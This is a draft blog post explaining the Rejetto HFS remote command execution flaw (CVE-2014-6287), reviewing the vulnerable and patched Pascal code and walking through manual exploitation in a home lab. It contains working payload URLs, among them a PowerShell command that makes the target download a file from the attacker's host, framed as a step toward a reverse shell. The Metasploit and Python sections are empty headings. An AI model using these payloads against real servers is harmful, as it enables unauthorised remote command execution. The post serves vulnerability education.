 ```yaml
---
layout: post
title:  "Rejetto HFS Remote Command Execution CVE2014-6287"
categories: [Vulnerabilities]
tags: [command execution, exploit, python]
draft: true
---
```


### Introduction

On September 12th 2014, a vulnerability found within HttpFileServer was reported that allowed attackers to remotely execute commands on the affected device, this was caused due to poor validation on user input, which would allow an attacker to execute arbitary commands. The bug was reported in the `findMacroMarker()` function in the `parserLib.pas` file.

### So, How does it work?

By performing whats known as [NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) we can bypass the sanity checking written in that function thus allowing us to script over HFS without any restrictions in place. This is because the RegEx does not correctly handle the nullbyte characters which is what allows us to escape the filter. If you want to know more about Null Byte Injection you can also read my [blog post](https://linxz.co.uk/attacks/2018/11/20/NullByte-Injection.html) on it.

If we send a nullbyte as a paramter when performing a search on the affected device then we can escape the filter of forbidden characters thus allowing us to execute arbitary commands on the device. As an example, take this request here `http://localhost:80/search=%00{.exec|+C:\Windows\system32\ping.exe+10.10.14.11}` as you can see we've got our nullbyte which allows us to bypass the sanity checking, then we're sending a command to tell the machine to run `ping.exe` and ping that IP address. You can learn more about [HFS Scripting Here.](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands). Now that we know we can execute commands remotely, we can now leverage this in order to setup a reverse shell to the affected device thus giving us access to it with the same privilege level as the account the software is running on.

### Code Review

There's not a massive amount of code for us to review here however, because HFS is an open-source program we can look at both the affected & fixed code, which is nice! So, let's first look at the vulnerable function within `parserLib.pas`.

```Pascal
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

As you can see, the vulnerable code is incredibly small, the only issue is that it does not correctly handle the nullbyte we send and thus that gives us the ability to script over HFS with no limitations. If we look in the `scriptLib.pas` file we can see where this function is called.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, the function in which this function is called is actually meant to stop people passing macros into a URL. However, there is no handling for a null byte which as we mentioned, that's where the problem lies. In order to fix this issue a function called `enforceNUL(s)` was added.

```Pascal
function noMacrosAllowed(s:string):string;
// prevent hack attempts
var
  i: integer;
begin
i:=1;
enforceNUL(s);
  repeat
  i:=findMacroMarker(s, i);
  if i = 0 then break;
  replace(s, '&#'+intToStr(charToUnicode(s[i]))+';', i,i);
  until false;
result:=s;
end; // noMacrosAllowed
```

As you can see, before it executes `findMacroMarker` it will first run this `enforceNUL` function, let's take a look at what this function does, which is defined in `utillib.pas`.

```Pascal
procedure enforceNUL(var s:string);
begin
if s>'' then
  setLength(s, strLen(@s[1]))
end; // enforceNUL
```

Now, my Pascal knowledge isn't the best however as far as I can tell this function basically removes the first character so that you cannot inject a `%00` into the URL, I could be wrong so if anyone knows some Pascal and would like to help me understand this better please feel free to contact me on Twitter @LinxzSec or @Linxz on Discord, thanks! You can obtain all of the source code for HFS from Source Forge.

### Exploit

Usually I test things against Metasploitable 2 however this vulnerability is not present in MS2 and thus in the below examples I am testing it against my own machine. I'm running HFS 2.3b on my Windows box whilst exploiting it using my Kali VM. I will show you how to execute this exploit both manaully and with Metasploit.

Firstly, let's test that we're running an affected version (although in this case we know we are) we will start out with sending a simple ping in a command back to our device whilst simultaneously running TCPDump on our attacking machine. Start by running HFS on your machine, make sure you can connect to it via the browser.

![Connection](LinxzFade.github.io/assets/images/2018-11-20/2018-11-20.PNG)

Now that we can see our device as being up we can move into the actual exploitation of the device, we will first look at exploiting this manually.

#### Manual Exploitation

Before we begin to exploit this we're going to make sure that our device is running the vulnerable version, even though we know it is and we can confirm with `nmap ip -sV` we're just going to do a quick test, we will first try to get the device to execute a ping back to our attacking machine.

First, setup a tcpdump using `tcpdump -i eth0 ICMP` leave that running and capturing packets in a terminal, then browse to your webserver with the following URL `http://192.168.139.1/?search=%00{.exec|C:\Windows\System32\ping.exe+192.168.139.138.}` obviously you will need to replace the IP addresses else this won't work, when you run this what you should see is your tcpdump picking up packets, you will also see a terminal open on the Windows device if you're using it (for example in my case I have three screens and I can see the terminal open when I press enter in my Kali VM). Now, what we did here was verify that the version is affected by sending a payload to the device, in this case we just told it to execute ping.exe and then ping the ip address `192.168.139.138` which is the address of my Kali VM. It's worth noting that it seems you *must* use a full stop at the end of your command else the server will not execute it, at least that's in my experience.

```bash
root@LinxzSecKali:~# tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:11:59.722051 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 33, length 40
12:11:59.722080 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 33, length 40
12:11:59.727859 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 34, length 40
12:11:59.727886 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 34, length 40
12:11:59.731815 IP 192.168.139.1 > LinxzSecKali: ICMP echo request, id 1, seq 35, length 40
12:11:59.731918 IP LinxzSecKali > 192.168.139.1: ICMP echo reply, id 1, seq 35, length 40
```

Next we need to exploit this vulnerability in order to get a reverse shell, we know the RCE is there so let's figure out how we can leverage that to get full access to the account that's running the service. So, as we've entioned the next step was to get a reverse shell! I came across the [following repo](https://github.com/samratashok/nishang) made by Samratashok which contains a lot of different PowerShell tools for offensive pen-testing. We're going to use some of these tools as there is one in here that will allow us to create a reverse shell on the target device, this is helpful because it means we don't have to build a script ourselves. (Yes I realise this section is "manual exploitation" however I think using a script here is much more efficient.)

So, we have the script, now we need to figure out how we can serve it to the target device so that we can send a payload to execute it. Well, we can use a variety of methods, in this case I'm going to use [SimpleHTTPServer.py](https://github.com/LinxzFade/Python-Hacking-Tools/blob/master/SimpleHTTPServer/SimpleHTTPServer.py) to achieve this. Basically, the script above is going to setup a HTTP Server on the specified port, and give any machine access to the directory that it's running in on that port, see where I'm going with this? Firstly, let's test our victim machine can access our attacking machine while we run `SimpleHTTPServer.py` in order to do this I am going to send the following PowerShell command to the device via my browser.

```PowerShell
http://192.168.139.1/?search=%00{.exec|+C:\WINDOWS\Sysnative\WindowsPowerShell\v1.0\powershell.exe%20-NoProfile%20-ExecutionPolicy%20unrestricted%20-Command%20(new-object%20System.Net.WebClient).Downloadfile(%27http://192.168.139.138:8000/test%27,%20%27C:\windows\temp\test%27).}
```

At the same time `SimpleHTTPServer.py` is going to be running in my terminal, as you can see I'm connecting to 192.168.139.138 on port 8000 which is my Kali machine & the port I've configured the HTTP Server to be running on, in the PS command above I am trying to donwnload "test" however that file does not exist and thus I get the below response from `SimpleHTTPServer.py`

```Bash
root@LinxzSecKali:~/Documents/Scripts/Python# python3 SimpleHTTPServer.py 8000
[+] Simple HTTP Server!
[+] Running Server...
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
192.168.139.1 - - [27/Nov/2018 18:39:04] code 404, message File not found
192.168.139.1 - - [27/Nov/2018 18:39:04] "GET /test HTTP/1.1" 404 -
```

but, that doesn't matter! We expeceted that behavior and now we know that our python HTTP server is working, we can now use this to get the victim to download our PowerShell reverse shell script that we briefly mentioned earlier

#### Metasploit Exploitation

### Python Exploitation

### References

[SecLists Bug Tracker](https://seclists.org/bugtraq/2014/Sep/85)

[HFS Scripting](http://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)

[NullByte Injection](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection)

[HFS Patchnotes](http://www.rejetto.com/hfs/?f=wn)

[HFS 2.3C](https://sourceforge.net/projects/hfs/files/HFS/2.3c/)

[Exploit DB](https://www.exploit-db.com/exploits/34668/)

[Rapid7 Module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)

[Metasploit Module](https://www.exploit-db.com/exploits/34926/)
